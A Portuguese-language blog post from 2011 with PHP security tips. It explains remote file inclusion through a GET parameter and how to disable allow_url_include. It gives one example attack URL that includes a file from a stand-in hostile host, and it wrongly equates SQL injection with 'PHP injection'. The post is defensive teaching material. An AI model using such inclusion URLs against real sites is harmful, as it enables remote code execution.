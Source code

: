 ```yaml
---
layout: post
title: Algumas dicas de segurança no PHP
date: '2011-11-22T09:35:00.000-08:00'
description: Algumas dicas de segurança no PHP
main-class: 'misc'
tags:
- Web Hacker
- PHP
image: http://2.bp.blogspot.com/-On3qcOCfgN8/TsvcEa2RPXI/AAAAAAAAAQg/OjkR8vGrhdY/s72-c/Hacker_Wallpaper_1280x1024_by_Pengo1.jpg
twitter_text: Algumas dicas de segurança no PHP
introduction: Algumas dicas de segurança no PHP
---
```

![Blog Linux](http://2.bp.blogspot.com/-On3qcOCfgN8/TsvcEa2RPXI/AAAAAAAAAQg/OjkR8vGrhdY/s320/Hacker_Wallpaper_1280x1024_by_Pengo1.jpg "Blog Linux")
Se tem duas coisas que eu adoro em Tecnologia e Internet são: Velocidade e Segurança(principalmente).Vamos inciar projetos de segurança em códigos, sistemas, softwares...pois isso é mais do que importante.
No PHP um dos ataques que mais acontecem é via inclusão de url através do include via método GET, exemplo:
se vc tem um site:
{% highlight bash %}
http://www.seusite.com.br
{% endhighlight %} e no php.ini está habilitada a linha:{% highlight bash %}
allow_url_include=On
{% endhighlight %} , alguém pode chegar no seu site e fazer assim:{% highlight bash %}
http://www.seusite.com.br/?pagina=http://sitecracker.net/malicioso.php
{% endhighlight %} , dessa forma, vai saber o que tem dentro do arquivo malicioso.php e o que isso pode ser feito?Existem algumas formas de você se proteger a esse tipo de ataque(inclusive informar quais arquivos são permitidos pra inclusão no próprio PHP), um deles é desabilitar o allow_url_include do php.ini , ficando assim:{% highlight bash %}
allow_url_include=Off
{% endhighlight %} , para encontrar o php.ini no debian e derivados, o caminho é, como o usuário root:
{% highlight bash %}
# su
# gedit /etc/php5/apache2/php.ini
{% endhighlight %}
dê um Ctrl+F e procure allow_url_include , caso você não tenha acesso ao php.ini , tente setá-lo pelo código php com a função ini_set():
{% highlight bash %}
<?php
ini_set('allow_url_include', 'Off');
?>
{% endhighlight %}
mas teste antes pra verificar se realmente funcionou.
Outro tipo de ataque que todo mundo já deve conhecer é o SQL INjection, que na verdade é o PHP Injection, nunca consegui atacar por testes com esse método, mas se você deseja saber mais sobre esse tipo de ataque Clique Aqui - WikiPedia ou Aqui - Manual do PHP
Vou postar em próximas publicações mais a respeito deste assunto, porém caso você deseje instalar um utilitário para verificar as vulnerabilidades do seu código, eu recomendo o:
PHP Vulnerability Hunter
PHP Vulnerabiliry Hunter é uma avançada e automatizada ferramenta whitebox desenvolvida para testes de fuzz. Essa aplicação detectou quase todas as vulnerabilidades de aplicações web listadas nas principais páginas de alerta. PHP Vulnerability Hunter tem a capacidade de desencadear uma ampla gama de falhas exploráveis, ​​em aplicações Web PHP. A configuração mínima é necessária para iniciar um processo de scanning; PHP Vulnerability Hunter não precisa sequer de um usuário especificado para um starting URI .
Clique aqui para fazer o download do PHP Vulnerability Hunter
Valeu, até a próxima!
